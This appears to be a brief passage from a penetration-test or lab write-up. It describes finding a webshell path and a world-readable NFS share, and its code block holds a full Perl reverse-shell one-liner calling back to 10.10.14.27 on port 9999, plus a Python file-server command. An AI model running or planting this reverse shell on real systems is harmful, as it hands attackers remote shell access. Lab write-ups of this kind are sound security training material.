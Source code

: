 ![ImgPlaceholder](screenshots/phpdir.png)

on the dev web directory we find the following scripts:

![ImgPlaceholder](screenshots/devdir.png)

Looks we have found a direct path to a webshell!

## Sample Report - Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, John was able to successfully gain access to the system.
Showmount reported a NFS share 'site_backups' readable to everyone.

```
cd upload
cat perl-reverse.pl 
perl -e 'use Socket;$i="10.10.14.27";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

python3 -m http.server 8080
```
